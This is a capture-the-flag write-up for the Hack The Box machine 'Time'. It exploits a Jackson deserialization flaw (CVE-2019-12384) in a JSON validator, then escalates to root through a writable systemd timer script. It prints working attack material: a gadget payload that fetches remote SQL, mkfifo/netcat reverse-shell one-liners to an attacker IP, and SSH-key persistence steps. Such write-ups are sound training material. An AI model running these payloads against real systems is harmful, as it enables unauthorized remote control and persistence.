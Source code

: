 ```yaml
---
layout: single
title: 'Walktrough: HTB Time'
namespace: htb-time
category: Walkthrough
tags:
- HackTheBox
- Jackson
- FasterXML
- Service Hijack
- HTB Linux
- HTB Medium
date: 2021-04-03T16:00:00.000+00:00
header:
  teaser: https://i.imgur.com/jiSvU4u.png
  og_image: "*teaser"
redirect_from: "/writeup/2021/04/htb-time"

---
```

Hello everyone!

The machine of this week will be **Time**, another Linux box medium rated from [Hack The Box](https://www.hackthebox.eu), created by [
egotisticalSW](https://app.hackthebox.eu/users/94858) and [felamos](https://app.hackthebox.eu/users/27390).<!--more-->

:information_source: **Info**: Write-ups for Hack the Box are always posted as soon as machines get retired.
{: .notice--info}

![HTB Time](https://i.imgur.com/mJmeefG.png){: .align-center}

## Enumeration

We start with the enumeration of published services using a `nmap` quick scan, where we can see the output below:

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.214
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-26 16:08 -03
Nmap scan report for 10.10.10.214
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```

### 80/TCP - HTTP Service

Starting by checking the HTTP service published on port 80, noticed that we have a JSON Validation and Beautifier service.

![Online JSON Parser - Time](https://i.imgur.com/V6RbC9L.png){: .align-center}

After some enumeration with `whatweb` and `nikto`, I haven't found anything useful, so I proceeded to app experimentation, looking for some vulnerability that could lead us to some code injection or LFI.

Analyzing the application, we have two functionalities: **Beautify** and **Validate**:

- The option beautify, after receiving a valid JSON, formats it in a pretty manner and, sending an invalid content (e.g. "test"), returns a `null` value.

![Online JSON Parser - Time - beautify](https://i.imgur.com/tpO2p3r.png){: .align-center}

- The Validate option (in beta) checks the syntax of the JSON provided. When we send an invalid request (e.g. "test"), the exception below is returned.

  ```plaintext
  Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN
  ```

## Initial Access

After searching for `com.fasterxml.jackson.core` I have found about the **Jackson** project, developed by **FasterXML** and from which core is the base component for [jackson-databind](https://github.com/FasterXML/jackson-databind), a popular JSON library, here used to implement the formatting and validating features.

Looking for CVEs on jackson-databind, I have found the following for code execution published in 2019, according to the page [CVE Details](https://www.cvedetails.com):

![CVE Details](https://i.imgur.com/T2Kth6e.png){: .align-center}

Of the 4 listed, I have found for **CVE-2019-12384** a working PoC at [this blog](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html), which I have used to gain initial access to the box. The following steps were used to get a reverse shell:

- Created a file called `inject.sql` with the code below, modified from the version at the blog, to start a reverse shell to the attacker machine at 4443 and published using a python3 HTTP server (`sudo python3 -m http.server 80`) from the directory where the file resides.

  ```sql
  CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
      String[] command = {"bash", "-c", cmd};
      java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
      return s.hasNext() ? s.next() : "";  }
  $$;
  CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f')
  ```

- Configured listener using netcat by running `nc -lnvp 4443`.
- Sent payload below in the application instead of a JSON content to be validated.

  ```plaintext
  ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.10.10/inject.sql'"}]
  ```

![Listener and Webserver - Time](https://i.imgur.com/7o42urH.png){: .align-center}

![Online Json Parser - Sending the payload](https://i.imgur.com/Pv2Vbzy.png){: .align-center}

## User flag

After upgrading the shell, started enumeration where was identified that the user we were using, **pericles**, was a regular Linux user with no special permissions granted.

```bash
pericles@time:/var/www/html$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```

Accessing its root directory found the user flag, as below.

```bash
pericles@time:/var/www/html$ cd ~
pericles@time:/home/pericles$ cat user.txt 
<redacted>
pericles@time:/home/pericles$ 
```

## Root flag

Before continuing enumeration, to make easier regaining access if needed, created an SSH key using `ssh-keygen` and configured the public key in the file `~/.ssh/authorized_keys`, allowing us to directly connect to the user pericles via SSH.

The enumeration was done by running `linpeas.sh` and one of the findings called attention, referring to the machine name: a shell file owned by `pericles` in the path `/usr/bin/timer_backup.sh`.

This file is configured as a **system timer** (`/etc/systemd/system/timer_backup.timer` and `/etc/systemd/system/timer_backup.service`) and set be executed **every 10 seconds** as `root`.

As we have enough permissions to edit the shell script, I have added the line below to return a reverse shell on the attacker machine and, after a few seconds, a reverse shell was obtained! :smile:

```bash
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/g
```

As the process is re-executed every 10 sec the process tree is terminated, and we lose the existing connection to the machine. To just get the root flag this time is sufficient, which was as done initially.

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.214] 33304
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
#      
```

In case you want to get a persistent connection at this machine we have two initial options:

- Configure the system timer to add the public key in the `/root/.ssh/authorized_keys` file, allowing us to SSH as `root`.
- Spawn another reverse shell as soon as we get the initial connection, which can be done in multiple ways like Metasploit AutoRunScript and `netcat`, prepending the listener with the instruction to send the payload as soon as it gets connected, as you can see in an example below where the `id` command is executed as soon as the session is started:

```bash
printf "id\n" | nc -lnvp 4443
```

I hope this was useful to you and see you guys in the next post! :smiley: